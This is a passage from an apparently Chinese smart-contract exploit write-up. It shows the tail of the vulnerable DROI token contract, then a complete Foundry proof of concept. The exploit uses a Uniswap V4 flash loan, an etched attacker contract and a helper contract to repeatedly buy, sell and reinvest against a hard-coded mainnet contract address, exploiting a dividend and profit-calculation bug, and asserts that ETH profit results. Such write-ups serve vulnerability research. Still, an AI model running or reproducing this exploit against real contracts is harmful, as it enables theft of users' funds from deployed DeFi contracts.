                    )*(tokens_ - 1e18)
                ),(tokenPriceIncremental_*((tokens_**2-tokens_)/1e18))/2
            )
        /1e18);
        return _etherReceived;
    }


    //This is where all your gas goes, sorry
    //Not sorry, you probably only paid 1 gwei
    function sqrt(uint x) internal pure returns (uint y) {
        uint z = (x + 1) / 2;
        y = x;
        while (z < y) {
            y = z;
            z = (x / z + z) / 2;
        }
    }
}

/**
 * @title SafeMath
 * @dev Math operations with safety checks that throw on error
 */
library SafeMath {

    /**
    * @dev Multiplies two numbers, throws on overflow.
    */
    function mul(uint256 a, uint256 b) internal pure returns (uint256) {
        if (a == 0) {
            return 0;
        }
        uint256 c = a * b;
        assert(c / a == b);
        return c;
    }

    /**
    * @dev Integer division of two numbers, truncating the quotient.
    */
    function div(uint256 a, uint256 b) internal pure returns (uint256) {
        // assert(b > 0); // Solidity automatically throws when dividing by 0
        uint256 c = a / b;
        // assert(a == b * c + a % b); // There is no case in which this doesn't hold
        return c;
    }

    /**
    * @dev Substracts two numbers, throws on overflow (i.e. if subtrahend is greater than minuend).
    */
    function sub(uint256 a, uint256 b) internal pure returns (uint256) {
        assert(b <= a);
        return a - b;
    }

    /**
    * @dev Adds two numbers, throws on overflow.
    */
    function add(uint256 a, uint256 b) internal pure returns (uint256) {
        uint256 c = a + b;
        assert(c >= a);
        return c;
    }
}
```

- 分红机制 + 获利计算逻辑 漏洞
- 漏洞利用EXP 

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.20;

import "forge-std/Test.sol";
import "forge-std/console.sol";

// 闪电贷接口
/* ========= Interfaces ========= */
interface IPoolManager {
    function unlock(bytes calldata data) external returns (bytes memory);
    function take(address currency, address to, uint256 amount) external;
    function settle() external payable returns (uint256);
}


// 漏洞合约接口
interface IDROI {
    function buy(address referredBy) external payable;
    function sell(uint256 amountOfTokens) external;
    function reinvest() external;
    function exit() external;
    function balanceOf(address customerAddress) external view returns (uint256);
    function transfer(address to, uint256 amountOfTokens) external returns (bool);
}

/* ========= Helper (仿链上的临时合约) ========= */
contract HelperB {
    mapping(address => bool) public _sendBack;
    address public receiver;
    address public droi;

    constructor(address _receiver, address _droi) {
        receiver = _receiver;
        droi = _droi;
        _sendBack[_receiver] = true;
    }

    fallback() external payable {
        if (msg.sig == bytes4(0x20e42ac3)) {
            (bool ok, ) = address(droi).call(abi.encodeWithSignature("exit()"));
            if (!ok) {
                console.log("HelperB exit call failed");
            }
        }
    }

    function sendBack() external {
        require(_sendBack[msg.sender], "Not authorized");
        uint256 balance = address(this).balance;
        console.log("HelperB sending back ETH:", balance);
        (bool success, ) = receiver.call{value: balance}("");
        require(success, "Send back failed");
    }

    receive() external payable {
        console.log("HelperB received ETH:", msg.value);
    }
}

/* ========= 会被 etch 到 OWNER 上的实现 ========= */
contract AttackerImpl {
    address public OWNER;
    address public POOL_MANAGER;
    address public DROI;
    HelperB public helper;
    
    bool private executed;

    modifier onlyOwnerEOA() {
        require(tx.origin == OWNER, "origin!=OWNER");
        _;
    }
    
    modifier onlyOnce() {
        require(!executed, "Already executed");
        executed = true;
        _;
    }

    function init(address _owner, address _poolManager, address _droi) external {
        if (OWNER == address(0)) {
            OWNER = _owner;
            POOL_MANAGER = _poolManager;
            DROI = _droi;
        }
    }

    function startExploit() external onlyOwnerEOA onlyOnce {
        console.log("Starting exploit...");
        
        // 触发Uniswap V4闪电贷
        IPoolManager(POOL_MANAGER).unlock("");
    }

    /* ====== Uniswap V4 回调 ====== */
    function unlockCallback(bytes calldata) external payable returns (bytes memory) {
        console.log("FlashLoan callback received");
        require(msg.sender == POOL_MANAGER, "Not pool manager");
        
        IDROI droi = IDROI(DROI);

        // 2. 部署 HelperB
        helper = new HelperB(OWNER, DROI);
        console.log("HelperB deployed at:", address(helper));

        // 3. buy 1 ETH
        droi.buy{value: 1 ether}(address(helper));
        console.log("Initial buy completed");

        // 4. 转移已有代币
        uint256 bal = droi.balanceOf(address(this));
        if (bal > 0) {
            droi.transfer(address(helper), 50 ether);
            console.log("Transferred tokens to HelperB");
        }

        // 5. 10 次购买
        for (uint i = 0; i < 10; i++) {
            droi.buy{value: 5 ether}(address(helper));
        }
         console.log("10 buys completed");

    
        droi.buy{value: 0x211b94d336ba510000}(address(helper));
        // 7. 分批卖出
        for (uint i = 0; i < 100; i++) {
            uint256 amt = droi.balanceOf(address(this));
            
            if (amt == 0) break;
            
            uint256 tenPct = (amt * 10) / 100;
            if (tenPct == 0) break;
            console.log("Balance:", amt, "ETH");
            console.log("Selling:", tenPct);
            console.log("selling ci:",i);
            droi.sell(tenPct);
            droi.reinvest();
        }
        console.log("Sell and reinvest completed");

        // 8. 退出
        droi.exit();
        console.log("DROI exit completed");

        // 9. 触发HelperB退出
        (bool success, ) = address(helper).call(abi.encodeWithSelector(bytes4(0x20e42ac3)));
        if (!success) {
            console.log("HelperB exit call failed");
        }

        // 10. 回收资金
        helper.sendBack();
        console.log("HelperB funds recovered");

        
        
        return new bytes(0);
    }

    receive() external payable {
        console.log("Received ETH:", msg.value);
    }
}

/* ========= Foundry 测试 ========= */
contract ExploitDROITest is Test {
    address constant POOL_MANAGER = 0x000000000004444c5dc75cB358380D2e3dE08A90; // Uniswap V4 PoolManager
    address constant DROI_ADDR = 0x4e9B6e88e6B83453e3ec6a1fFA0c95f289cF81d5; 

    address public OWNER;

    function setUp() public {
        // 使用有效的 RPC URL
        vm.createSelectFork("https://virtual.mainnet.eu.rpc.tenderly.co/7568688b-2ad3-45f6-939c-f186b20503d6", 22918647);
        OWNER = vm.addr(1300000);
        vm.deal(OWNER, 700 ether);
    }

    function _eth(address a) internal view returns (uint256) {
        return a.balance;
    }
    
    function testExploit_UsingEIP7702Etch() public {
        console.log("=== Starting Exploit Test ===");
        console.log("OWNER address:", OWNER);
        console.log("Initial ETH balance:", _eth(OWNER));
        
        uint256 eth0 = _eth(OWNER);

        // 1) 部署实现并 etch 到 OWNER
        AttackerImpl impl = new AttackerImpl();
        vm.etch(OWNER, address(impl).code);

        // 2) 执行攻击
        vm.startPrank(OWNER, OWNER);
        IAttackerOnEOA(OWNER).init(OWNER, POOL_MANAGER, DROI_ADDR);
        IAttackerOnEOA(OWNER).startExploit();
        vm.stopPrank();

        // 结束记录
        uint256 eth1 = _eth(OWNER);

        console.log("\n=== Results ===");
        console.log("OWNER before ETH:", eth0);
        console.log("OWNER after ETH:", eth1);
        console.log("ETH Profit:", eth1 - eth0);

        assertGt(eth1, eth0, "No profit generated");
        console.log("Exploit successful!");
    }
}

// 用于调用etched合约的接口
interface IAttackerOnEOA {
    function init(address _owner, address _poolManager, address _droi) external;
    function startExploit() external;
}
```
```
